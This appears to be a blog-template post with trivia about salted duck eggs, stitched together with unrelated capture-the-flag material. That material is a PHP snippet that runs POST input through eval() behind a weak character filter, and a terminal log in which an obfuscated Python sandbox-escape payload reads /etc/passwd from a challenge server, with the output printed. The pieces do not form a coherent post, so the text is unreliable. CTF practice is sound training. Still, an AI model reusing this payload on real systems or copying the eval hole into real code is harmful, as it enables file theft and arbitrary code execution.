 ```yaml
---
title: My Second Post!
date: '2015-05-06T23:46:37.121Z'
tags: ['second', 'world', 'code']
---
```


Wow! I love blogging so much already.

Did you know that "despite its name, salted duck eggs can also be made from
chicken eggs, though the taste and texture will be somewhat different, and the
egg yolk will be less rich."?
([Wikipedia Link](https://en.wikipedia.org/wiki/Salted_duck_egg))

Yeah, I didn't either.

```html
<head>
  This is the head.
</head>
<body>
  This is the body.
</body>
```

```php
<?php
	if(sizeof($_REQUEST)===2&& sizeof($_POST)===2){
	$cmd=$_POST['cmd'];
	$submit=$_POST['submit'];
	if(isset($cmd)&& isset($submit)){
		if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
			echo "<div class=\"success\">Command executed !</div>";
			eval($cmd);
		}else{
			die("<div class=\"error\">NOT ALLOWED !</div>");
		}
	}else{
		die("<div class=\"error\">NOT ALLOWED !</div>");
	}
	}else if ($_SERVER['REQUEST_METHOD']!="GET"){
		die("<div class=\"error\">NOT ALLOWED !</div>");
	}
	 ?>
```

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
[eval('[].__cla{0}{0}__.__ba{0}e__.__{0}ubcla{0}{0}e{0}__()'.format(dir()[0][9]))[40]('/etc/pa{0}{0}wd'.format(dir()[0][9])).read()]
['root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nfword:x:1000:1000::/home/fword/:/bin/bash\nmessagebus:x:101:101::/nonexistent:/usr/sbin/nologin\n']
```
